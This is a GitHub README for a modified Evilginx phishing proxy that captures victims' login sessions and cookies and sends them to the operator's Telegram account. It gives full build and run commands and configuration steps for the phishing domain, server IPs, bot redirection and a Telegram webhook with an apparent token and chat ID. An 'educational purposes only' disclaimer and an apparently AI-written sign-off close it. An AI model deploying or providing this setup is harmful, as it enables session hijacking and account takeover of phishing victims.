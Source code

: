 
![eviltelgram](https://github.com/itwizardo/evilginx2telegram/assets/32465924/66b6a8f4-73ff-496e-a2c7-38f5a8ff1c3f)

```markdown
# Evilginx 3.5.0 - Modified By Itwizardo

This is a modified version of Evilginx 3.5.0 that includes functionality to send
sessions to your Telegram account, including the cookies file,
it also has the new Gophish intergration and bug fixes.
```
## Ubuntu Installation

To install Evilginx 3.5.0 - Modified By Itwizardo on Ubuntu, follow these steps:

1. Clone the repository:

```bash
git clone https://github.com/itwizardo/evilginx2telegram.git
```

2. Navigate to the cloned directory:

```bash
cd evilginx2telegram
```

3. Install dependencies:

```bash
go get
```

4. Build the project:

```bash
go build
```

5. Make the executable:

```bash
make
```

6. Navigate to the build directory:

```bash
cd build
```

7. Set permissions for the Evilginx executable:

```bash
chmod +rwx evilginx
```

8. Run Evilginx:

```bash
./evilginx -p ../phishlets/
```

## Configuration Setup

Before using Evilginx, you need to set up your configuration. Follow these steps:

1. Set the domain:

```
config domain something.com
```

2. Set the external server IP:

```
config ipv4 external serverip
```

3. Set the server IP to bind to:

```
config ipv4 bind serverip
```

4. Set the unauthenticated URL:

```
config unauth_url https://bots.here.redirected.com/
```

5. Set autocert to on or off:

```
config autocert on/off
```

6. Set up the Telegram webhook:

```
config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O/15604540690
```

Replace `7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58O` with your Telegram token.

Replace `15604540690` with your Chat id.

## Telegram Guide

Here's a guide on how to set up Telegram for Evilginx:

### How to Get Chat ID

1. Go to Telegram and search for `@raw_data_bot`.
2. Start a conversation with the bot.
3. The bot should provide you with your chat ID.

### How to Get Token

1. Go to Telegram and search for `@BotFather`.
2. Start a conversation with the bot by sending `/start`.
3. Follow the instructions to create a new bot and get your Telegram token.

**For Educational Purposes Only:**

Evilginx 3.5.0 - Modified By Itwizardo is intended for educational purposes only. Any use of this tool for malicious or illegal activities is strictly prohibited. The developers and contributors are not responsible for any misuse of this tool.

```

Feel free to modify this README as needed for your repository! Let me know if you need further assistance.
```
